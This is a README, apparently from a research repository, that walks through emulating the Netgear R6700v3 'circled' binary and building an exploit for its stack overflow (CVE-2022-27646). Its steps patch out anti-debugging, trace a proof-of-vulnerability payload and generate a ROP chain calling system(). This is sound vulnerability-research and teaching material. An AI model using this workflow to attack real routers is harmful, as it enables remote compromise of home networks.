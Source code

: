 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3 (CVE-2022-27646)
## 1. Preparation / Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the project repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable pointing to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch out the anti-debugging functionality (allow LDPRELOAD) of the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script (wrapper to emulate binary circled)
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Configure conservative ASLR as being used on the Netgear R6700v3:
  ```
  echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
  ```
- Chroot into the root filesystem:
  ```
  sudo mount -t proc /proc/ $ROOTFS/proc/
  sudo mount -t sysfs /sys/ $ROOTFS/sys/
  sudo mount -o bind /dev/ $ROOTFS/dev/
  sudo chroot $ROOTFS/ /bin/sh
  export SHELL=/bin/sh
  ```
## 2. Morion Tracing
Use the following steps to trace the binary *circled* with a proof-of-vulnerability (PoV) payload (as e.g. identified by a fuzzer):
| Step | System         | Command                                                                      | Explanation                                                             |
|------|----------------|------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| 1    | Guest          | `python3 server/circled.server.py --payload "pov"`                           | Start HTTP server delivering proof-of-vulnerability (PoV) payloads      |
| 2    | Guest (chroot) | `/circled.sh --gdb`                                                          | Emulate binary *circled* with GDB attached (and therefore no ASRL)      |
| 3    | Host  (morion) | `cp circled.init.yaml circled.yaml && gdb-multiarch -q -x circled.trace.gdb` | Collect an execution trace of the binary *circled*                      |

## 3. Morion Symbolic Execution
Use the following steps to execute the collected trace symbolically and analyse for potential control flow hijacking vulnerabilities:
| Step | System         | Command                                                                      | Explanation                                                             |
|------|----------------|------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| 4    | Host  (morion) | `morion_control_hijacker circled.yaml --disallow_user_inputs`                | Symbolically analyse the trace for potential control flow hijacks       |
| 5.1  | Host  (morion) | `morion_control_hijacker circled.yaml --skip_state_analysis`                 | Symbolically analyse the trace for potential control flow hijacks       |
| 5.2  | Host  (morion) | `quit`                                                                       | Ignore notification about unrestricted `r11/fp` register                |
| 5.3  | Host  (morion) | `%run -i circled.rop1.py`                                                    | Try jump to ROP gadget 1: `0xc9b8: mov r0, r6; bl #0x94a0 <system@plt>` |
| 5.4  | Host  (morion) | `%run -i circled.rop2.py`                                                    | Put argument for function `system@plt`                                  |
| 5.5  | Host  (morion) | `quit`                                                                       | Terminate                                                               |
| 6    | Host  (morion) | `morion_rop_generator circeld.yaml default`                                  | Generate exploit payload for a specified ROP chain                      |
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
